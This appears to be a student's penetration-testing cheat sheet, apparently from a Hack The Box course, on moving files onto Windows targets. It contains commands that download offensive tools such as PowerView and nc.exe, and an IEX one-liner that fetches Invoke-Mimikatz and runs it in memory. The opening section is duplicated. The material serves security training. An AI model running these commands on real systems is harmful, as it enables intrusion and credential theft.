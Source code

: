 

# Bash Script Commands

PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP, HTTPS or FTP. The following table describes WebClient methods for downloading data from a resource:


- OpenRead	Returns the data from a resource as a Stream.

- OpenReadAsync	Returns the data from a resource without blocking the calling thread.

- DownloadData	Downloads data from a resource and returns a Byte array.

- DownloadDataAsync	Downloads data from a resource and returns a Byte array without blocking the calling thread.

- DownloadFile	Downloads data from a resource to a local file.
DownloadFileAsync	Downloads data from a resource to a local file without blocking the calling thread.

- DownloadString	Downloads a String from a resource and returns a String.

- DownloadStringAsync	Downloads a String from a resource without blocking the calling thread.

## PowerShell DownloadFile Method

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

- PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
- PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

- PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
- PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')


## Fileless Method 
- PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

## Invoke webrequest
- PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

# Common Errors with PowerShell
- There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.


# Bash Script Commands

PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP, HTTPS or FTP. The following table describes WebClient methods for downloading data from a resource:


- OpenRead	Returns the data from a resource as a Stream.

- OpenReadAsync	Returns the data from a resource without blocking the calling thread.

- DownloadData	Downloads data from a resource and returns a Byte array.

- DownloadDataAsync	Downloads data from a resource and returns a Byte array without blocking the calling thread.

- DownloadFile	Downloads data from a resource to a local file.
DownloadFileAsync	Downloads data from a resource to a local file without blocking the calling thread.

- DownloadString	Downloads a String from a resource and returns a String.

- DownloadStringAsync	Downloads a String from a resource without blocking the calling thread.

## PowerShell DownloadFile Method

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

- PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
- PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

- PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
- PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')


## Fileless Method 
- PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

## Invoke webrequest
- PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

# Common Errors with PowerShell
- There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

## Creating an SMB Server
- AadhaarKoul@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

## Copying from an SMB Server
- C:\htb> copy \\192.168.220.133\share\nc.exe

## Creating an SMB Server with credentials
- Aadhaar Koul@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

## Mounting the SMB server 
- C:\htb> net use n: \\192.168.220.133\share /user:test test

# FTP File Transfers using Python 
## Installing pytohn module 
- Aadhaar Koul@htb[/htb]$ sudo pip3 install pyftpdlib

## Setting up the server 
- Aadhaar Koul@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

## Transferrring Files from an FTP Server
- PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')


